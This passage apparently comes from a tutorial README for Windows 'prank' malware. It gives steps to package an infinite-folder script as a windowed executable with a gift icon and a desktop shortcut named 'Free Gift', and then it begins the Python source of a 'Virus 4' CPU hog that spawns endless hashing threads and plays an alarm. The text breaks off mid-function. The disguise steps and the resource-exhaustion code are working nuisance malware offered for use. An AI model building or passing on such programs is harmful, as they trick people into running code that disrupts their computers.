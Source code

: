 - Navigate to this link: https://www.iconarchive.com/
- Search your desired icon. For example: gift
- Click All Downloads Format
- Choose Windows: Download ICO
- Rename the file into gift
- Move the gift.ico to your folder

In your terminal, paste this:
```bash
pip install pyinstaller
pyinstaller --onefile --windowed --icon=gift.ico infinitefolder_prank.py
```
#### #2 Create the Desktop Shortcut
- Right-click desktop → New → Shortcut
- Browse to: C:\Users\Administrator\Downloads\malware\virus2\dist\infinitefolder_prank.exe
- Name it "Free Gift"

# Virus 4
### Step 1: Create new folder (vs code) CPU_Hog
### Create New Text file: CPU_Hog.py

Paste this:
```bash
import threading
import time
import hashlib
import os
import tkinter as tk
import winsound  # Windows only
import sys
from datetime import datetime

# === Setup ===
os.makedirs("logs", exist_ok=True)
LOG_FILE = "logs/dos_log.txt"

# === Resource Path for PyInstaller ===
def resource_path(relative_path):
    try:
        base_path = sys._MEIPASS
    except Exception:
        base_path = os.path.abspath(".")
    return os.path.join(base_path, relative_path)

ALARM_FILE = resource_path("alarm.wav")

# === Logging ===
def log(msg):
    with open(LOG_FILE, "a") as f:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        f.write(f"[{timestamp}] {msg}\n")

# === CPU Hog ===
def hog_cpu(name):
    log(f"CPU thread started: {name}")
    while True:
        hashlib.sha256(name.encode()).hexdigest()

# === Alarm Sound ===
def play_alarm():
    try:
        if not os.path.exists(ALARM_FILE):
```